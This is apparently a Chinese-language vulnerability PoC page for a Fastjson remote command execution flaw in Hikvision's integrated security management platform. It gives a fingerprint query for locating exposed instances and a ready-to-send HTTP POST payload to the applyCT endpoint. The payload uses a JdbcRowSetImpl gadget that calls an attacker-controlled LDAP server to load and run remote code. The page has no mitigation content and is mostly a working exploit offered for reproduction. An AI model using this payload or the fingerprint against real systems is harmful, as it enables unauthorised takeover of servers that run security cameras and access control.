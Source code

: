 # 

# HIKVISION 综合安防管理平台 applyCT Fastjson远程命令执行漏洞

## 漏洞描述

HIKVISION 综合安防管理平台 applyCT 存在低版本Fastjson远程命令执行漏洞，攻击者通过漏洞可以执行任意命令获取服务器权限

## 漏洞影响

```
HIKVISION 综合安防管理平台
```

## 网络测绘

```
app="HIKVISION-综合安防管理平台"
```

## 漏洞复现

登录页面

![image-20220824134144287](./images/202208241341481.png)

验证POC

```
POST /bic/ssoService/v1/applyCT 
Content-Type: application/json

{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://xxx.xxx.xxx.xxx/Basic/TomcatEcho","autoCommit":true},"hfe4zyyzldp":"="}
```

![image-20220824134503675](./images/202208241345726.png)
